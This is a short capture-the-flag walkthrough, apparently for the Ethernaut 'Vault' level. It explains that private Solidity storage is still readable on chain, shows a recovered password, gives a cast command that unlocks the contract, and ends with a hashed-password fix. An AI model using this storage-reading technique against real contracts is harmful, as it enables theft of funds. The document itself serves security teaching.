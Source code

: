 # Vault

Unlock the vault to pass the level.

## Vulnerability

In Solidity, private variables are not directly accessible from outside the contract, but they are still visible in the blockchain. This means that while you can't directly retrieve the password from the Vault contract, you can still find it by looking at the transaction that created the contract.

## Attack

```bash
python3.11 get_password.py

Hex password: 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
Plain password: A very strong secret password :)
```

```bash
cast send $CONTRACT_ADDRESS "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
```

## Fix

```bash
contract Vault {
    bool public locked;
    bytes32 private hashedPassword;
    address private owner;

    event Unlocked(address unlocker);

    constructor(bytes32 _hashedPassword) {
        locked = true;
        hashedPassword = _hashedPassword;
        owner = msg.sender;
    }

    function unlock(bytes32 _password) public {
        require(msg.sender == owner, "Only the owner can unlock the vault");
        if (keccak256(abi.encodePacked(_password)) == hashedPassword) {
            locked = false;
            emit Unlocked(msg.sender);
        }
    }
}
```
